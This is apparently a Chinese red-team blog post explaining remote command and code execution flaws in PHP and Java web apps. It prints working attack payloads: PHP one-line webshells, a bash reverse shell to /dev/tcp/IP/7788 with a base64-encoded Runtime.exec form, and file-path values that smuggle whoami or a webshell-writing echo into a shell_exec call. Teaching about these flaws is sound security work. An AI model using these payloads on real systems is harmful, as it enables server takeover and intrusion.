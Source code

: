 #  总结RCE漏洞(常见RCE的组合案例）   
原创 LULU  红队蓝军   2024-09-06 18:02  
  
## RCE原理   
  
RCE(remote command/code execute)  
  
即**远程命令**/**代码执行**。可以让攻击者直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统。RCE分为远程命令执行ping和远程代码执行evel。  
  
在 Web 应用中有时候程序员为了考虑灵活性、简洁性，会在代码调用代码或命令执行函数去处理。比如当应用在调用一些能将字符串转化成代码的函数时，没有考虑用户是否能控制这个字符串，将造成代码执行漏洞。同样调用系统命令处理，将造成命令执行漏洞。  
### php命令执行函数  
```
system()、exec()、shell_exec()、pcntl_exec()、popen()、proc_popen()、passthru()

```  
### php代码执行函数  
```
eval()、assert()、preg_replace()、create_function()、array_map()、
call_user_func()、call_user_func_array()、array_filter()、uasort()、文件操作函数、动
态函数（$a($b)）

```  
  
**PHP中可以执行代码的函数，常用于编写一句话木马，可能导致代码执行漏洞。比如**  
```
<?php eval($_REQUEST[6]);?>
<?php assert($_REQUEST[6]);?>
<?php @preg_replace("/abc/e",$_REQUEST[6],"abcd");?>

```  
### Java命令执行函数  
```
Runtime.getRuntime().exec  、ProcessBuilder

```  
  
注：Runtime.exec类型的RCE如果要反弹shell需要特殊处理：  
  
原命令：bash -i >& /dev/tcp/IP/7788 0>&1  
  
处理后：bash -cecho,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4SDwLjEvMTIzNDUgMD4mMQ==}{base64,-d|{bash,-i}  
  
Java没有直接的代码执行函数  
### 命令连接符  
  
**Windows** **系列支持的管道如下所示：**  
```
"|":直接执行后面的语句，如：ping 127.0.0.1 | whoami
"||":如果前面执行的语句执行出错，则执行后面的语句，前面的语句只能为假。例如：ping 2 ||whoami
"&"：如果前面的语句为假则直接执行后面的语句，前面的语句可能为假。例如：ping 127.0.0.1&whoami
"&&"：如果前面的语句为假则直接出错，也不执行后面的语句，前面的语句只能为真。例如：ping 127.0.0.1 && whoami

```  
```
shell_exec('mysqldump -uroot -proot --databases doucms > D:/doucms.sql');
// D:/doucms.sql 这个是可控的参数
// $path = 'D:/doucms.sql';
// 修改这个参数
// $path = 'D:/douc&whoami&ms.sql';
// $path = 'D:/douc&echo "<?php eval($_REQUEST[6]);?>" > shell.php&ms.sql';

```  
  